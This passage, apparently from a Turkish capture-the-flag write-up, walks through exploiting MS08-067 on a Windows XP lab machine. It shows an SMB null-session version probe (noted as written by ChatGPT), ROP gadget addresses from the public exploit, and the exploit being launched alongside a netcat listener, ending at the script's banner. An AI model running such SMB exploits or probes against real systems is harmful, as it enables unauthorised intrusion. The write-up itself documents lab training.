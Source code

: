 
#### Guess Version

Exploit, Windows sürümünü ve Dil paketini bilmemi gerektiriyor:

ChatGpt'ti tarafından yazılan kodum . 

```
# MS08-067 Exploit için Versiyon Tahmin Mekanizması
import sys
from impacket import smb

target_ip = "10.10.10.4"  # Örnek IP

try:
    conn = smb.SMB('*SMBSERVER', target_ip)
    conn.login('', '')  # Boş oturum açma denemesi
    print(f"OS: {conn.get_server_os()}")
except Exception as e:
    print(f"Bağlantı hatası: {e}")
```

![Pasted image 20250205234013.png](/img/user/resimler/Pasted%20image%2020250205234013.png)

Exploit, bazı küçük kod parçalarının bellekte nerede olacağını bilmenin avantajını kullanır ve shell'e giden yolda bu bitleri kullanır. Windows'un farklı sürümleri için bu araçların adresleri farklı olacaktır. Örneğin, kaynaktan:

```
        elif (self.os == '4'):
            print 'Windows 2003 SP1 English\n'
            ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
            ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
            jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
            disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
            jumper = disableNXjumper % (
                ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)
```

Numaralandırmama dayanarak, Windows XP olduğunu biliyorum. İlk olarak hedef 6'yı deneyeceğim, Windows XP SP3 İngilizce (NX). Eğer bu başarısız olursa, geri gelip diğerlerini deneyeceğim.

#### Run Exploit
Bir nc listener açacağım ve exploit'i çalıştıracağım:

```
root@kali# python ms08-067.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################

$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .

```